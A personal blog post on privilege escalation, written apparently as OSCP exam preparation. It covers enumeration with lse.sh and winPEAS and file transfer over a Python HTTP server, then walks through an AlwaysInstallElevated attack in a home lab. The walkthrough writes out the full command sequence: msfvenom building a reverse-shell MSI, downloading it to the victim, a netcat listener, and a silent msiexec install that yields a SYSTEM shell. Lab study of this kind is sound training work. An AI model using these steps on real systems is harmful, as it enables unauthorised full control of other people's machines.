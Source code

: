 ```yaml
---
layout: post
title: Windows and Linux Privilege Escalation Tools
tags: [Security, OSCP, Privilege escalation, Pentest, Red-teaming]
comments: true
---
```


In my preperation of the OSCP course i am learning about both linux and windows privilege escalations techniques.
There are differten escaltion techniques like escalation via kernel exploits, unqoted services, misconfigruations and stuff like that.
I built myself a lab to practice on. 
I have used <https://github.com/sagishahar/lpeworkshop> for the lab. Everything you need to know is in there. I did use a Win 10 machine so i had to remove the space between the md5 hashes to make the script work. Also i did create an admin account and disabled the realtime protection.

You can find the different privilege escalation manually or via automated scripts.
The two tools i use for automation are linux-smart-enumeration for Linux <https://github.com/diego-treitos/linux-smart-enumeration>
winPEAS for Windows <https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite>

To use lse (Linux-smart-enumeration), first we download the script. 
<div class="alert-info">git clone git clone https://github.com/diego-treitos/linux-smart-enumeration.git
</div>

Next we can use lse. you can use the -h parameter to show the options. I am not going to get in details about this.
<div class="alert-info">./lse.sh -h
</div>
Of course you have to run this on the victim-pc or victim-server.

To use winPEAS ,first we download the scripts.
<div class="alert-info">git clone git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git
</div>
As with the lse.sh script, you have to run this on the victim-pc or victim-server.

To transfer one of these files you have a few options you can use.
On linux you can start a http server to download the files via the shell on the victim.
Other options are to transfer these files via SMB or NetCat if it is available on the victim.
When transfering via SMB you have to setup SMB on kali.

To start a http server run the following command.
<div class="alert-info">sudo python3 -m http.server 80</div>
This will start a http on port 80 in the directory you currently are.

You can now download the lse.sh if you are on Linux or winPEAS.exe if you are on Windows.
Once you have transferd one of the files you can run it and read the output carefully for anything interesting that could lead to a privilege escalation.

Let's say we already have shell on a Windows victim we could start from there to download the winPEAS.exe file.
<div class="alert-info">wget http://ip/winPEAS.exe -O winPEAS.exe</div>
![image](/assets/img/transfer-winpeas.png)
As you can see the shell we had does not understand weget. So we just type in powershell to get a powershell shell were we can run the wget comman.

Next run the winPEAS.exe and check for anything interesting that could lead to a privilege escalation.

We use the command .\winPEAS.exe -h to see what options we have.
![image](/assets/img/winpeas-h.png)
Let's run the following command
<div class="alert-info">.\winPEAS.exe windowscreds</div>
![image](/assets/img/winpeas-windowscreds.png)
The results shows us that AlwaysInstallElevated is set to 1 in both HKLM and HKCU!
This means that .MSI packages are installed with eleveated system privileges.

We now can run the following msfvenom commannd to create a payload with a reverse shell in it.
<div class="alert-info">msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f msi -o reverse.msi</div>
![image](/assets/img/msfvenom-msi.png)
Next we set up a http server to download the file from the victim
<div class="alert-info">sudo python3 -m http.server 80</div>
![image](/assets/img/http-server.png)

Next we download the reverse.msi to the victim
<div class="alert-info">wget http://ip/reverse.msi -O reverse.msi</div>
![image](/assets/img/wget-msi.png)

We now setup a new NetCat listener on Kali 
<div class="alert-info">sudo nc -nlvp 55</div>
![image](/assets/img/nc-listener-55.png)

Finally we run the following command in the victim shell
<div class="alert-info">msiexec /quiet /qn /i reverse.msi</div>
![image](/assets/img/msiexec.png)

Lets go back to the new nc listener and checkout if we did catch the reverse shell with system privileges.

![image](/assets/img/system-msiexec.png)

Yes, we have shell and running it as system!

